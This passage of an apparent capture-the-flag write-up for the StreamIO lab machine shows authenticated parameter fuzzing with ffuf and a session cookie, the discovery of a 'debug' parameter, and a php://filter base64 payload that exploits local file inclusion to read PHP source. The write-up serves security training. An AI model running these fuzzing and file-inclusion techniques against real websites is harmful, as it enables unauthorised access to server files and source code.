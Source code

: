 We are not sysadmin.

Let’s now back to the home page and attempt to login:

We are logged in with yoshihide.

![image.png]({{ site.baseurl }}/assets/streamio/image%2023.png)

Nothing new here discovered. We remember the /admin directory where we don’t have permission to access. Let’s try accessing it again now that we are logged in:

![image.png]({{ site.baseurl }}/assets/streamio/image%2024.png)

When we click on one of the hyperlinks, we get returned an empty http parameter and output:

![image.png]({{ site.baseurl }}/assets/streamio/image%2025.png)

Let’s fuzz for other parameters; don’t forget our cookie, since this is a privileged search function, we can get our session ID from cookie editor:

![image.png]({{ site.baseurl }}/assets/streamio/image%2026.png)

```bash
ffuf -u https://streamio.htb/admin/?FUZZ= -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -H 'Cookie: PHPSESSID=b10arkkc2eefi5ngo381v7kv6r' -fs 1678

debug                   [Status: 200, Size: 1712, Words: 90, Lines: 50, Duration: 24ms]
movie                   [Status: 200, Size: 320235, Words: 15986, Lines: 10791, Duration: 292ms]
staff                   [Status: 200, Size: 12484, Words: 1784, Lines: 399, Duration: 24ms]
user                    [Status: 200, Size: 2073, Words: 146, Lines: 63, Duration: 184ms]

```

We see new parameter debug.

Let’s see what it returns:

![image.png]({{ site.baseurl }}/assets/streamio/image%2027.png)

Let’s do an existing page: 

![image.png]({{ site.baseurl }}/assets/streamio/image%2028.png)

We get an error. Let’s try LFI; remember this has a Windows backend:

![image.png]({{ site.baseurl }}/assets/streamio/image%2029.png)

It works.

Let’s try using php base64 filters:

```bash
https://streamio.htb/admin/?debug=php://filter/read=convert.base64-encode/resource=index.php
```

![image.png]({{ site.baseurl }}/assets/streamio/image%2030.png)
